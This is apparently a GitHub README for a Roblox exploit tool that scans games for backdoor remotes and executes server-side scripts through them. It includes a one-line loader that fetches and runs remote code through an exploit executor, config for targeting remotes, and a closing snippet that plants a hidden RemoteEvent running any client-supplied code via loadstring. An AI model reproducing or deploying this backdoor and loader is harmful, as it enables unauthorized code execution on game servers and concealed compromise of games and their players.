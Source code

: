 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts them within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Authors
**jLn0n**
- Discord: jLn0n#1464(474555624219344906)
- Github: [@jLn0n](https://github.com/jLn0n)
- Guilded: [jLn0n](https://www.guilded.gg/profile/1Ar9EYwm)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for me copying this thingy(and modifying it).)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1e10,1e10))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
